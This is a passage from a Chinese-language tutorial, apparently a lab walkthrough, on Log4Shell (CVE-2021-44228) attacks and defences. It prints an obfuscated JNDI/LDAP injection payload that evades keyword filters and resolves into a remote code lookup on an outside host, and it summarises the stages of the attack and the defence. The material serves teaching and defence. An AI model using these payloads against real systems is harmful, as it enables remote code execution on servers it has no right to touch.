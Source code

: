 **完整的混淆载荷：**

```
${j${::-n}d${::-i}:ld${date:'a'}p://1.1.1.1:995/Lo${sys:NONEXIST:-g}4jRCE}
```

**防火墙看到的是：** 一堆看起来无害的字符组合 **Log4j 解析后变成：** `${jndi:ldap://1.1.1.1:995/Log4jRCE}`

### 绕过攻击成功！

**攻击者输入混淆载荷后：**

- 防火墙没有发现任何可疑关键词，放行了数据包
- Log4j 照常解析并执行了恶意载荷
- 攻击者再次获得了系统控制权
- 防火墙日志显示：**没有任何告警！**

**用人话说：** 就像写暗号一样，"去买 🍎🍌🍊"，邮局检查员看不懂暗号含义，但收信人知道这是"去买水果"的意思。

## 最终防御-专业规则集

### 升级防御策略

管理员意识到基础关键词检测不够用，部署了专业的安全规则集：

```bash
# 使用专业的Emerging Threats规则集
grep CVE-2021-44228 emerging-all.rules > advanced_log4j.rules
```

**专业规则特点：**

- 不只检查关键词，还检查语法结构
- 能识别各种混淆技术
- 包含正则表达式匹配模式

### 最终防御测试

**攻击者再次使用混淆载荷：**

```
${j${::-n}d${::-i}:ld${date:'a'}p://1.1.1.1:995/Lo${sys:NONEXIST:-g}4jRCE}
```

**结果：** 攻击被成功阻断！因为防火墙识别出了混淆模式，同时触发了 5 条不同的检测规则，所以攻击者无法再获得系统访问权限

## 攻防对抗-技术总结

### 攻击演进过程

```
第一阶段：基础攻击
载荷：${jndi:ldap://1.1.1.1/恶意代码}
结果：成功执行

第二阶段：基础防御
方法：检查关键词"jndi"、"ldap"
结果：攻击被阻断

第三阶段：混淆绕过
载荷：${j${::-n}d${::-i}:ld${date:'a'}p://1.1.1.1/恶意代码}
结果：绕过基础防御

第四阶段：高级防御
方法：专业规则集，检查语法结构
结果：混淆攻击被识别并阻断
```
